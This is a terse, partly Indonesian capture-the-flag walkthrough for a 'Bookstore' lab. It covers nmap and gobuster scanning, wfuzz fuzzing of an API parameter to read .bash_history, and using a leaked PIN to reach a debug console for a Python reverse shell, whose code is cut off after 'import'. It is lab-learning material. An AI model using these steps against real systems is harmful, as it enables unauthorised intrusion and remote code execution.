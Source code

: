 # bookstore

## Task 1 Bookstore
- nmap ip
- open ip:5000 in browser
- gobuster dir -u ip -w wordlist -t 70 -o gobuster
  - api, dan console
- open ip:5000/api
  - open ip:5000/api/v2?id=1 
  - open ip:5000/api/v1?id=.bash_history 
wfuzz -u ip:5000/api/v1?FUZZ=.bash_history -w wordlist --hc 404
  - fuzz itu akana digantikan dentgan bbrp wordlist
  - ketika web show dibuka kita melihat pin dan di gobuster ada console
  - lalu kita buka console dan masukan revsehelnya
- revese shell > python 2
  ```
  import
  ```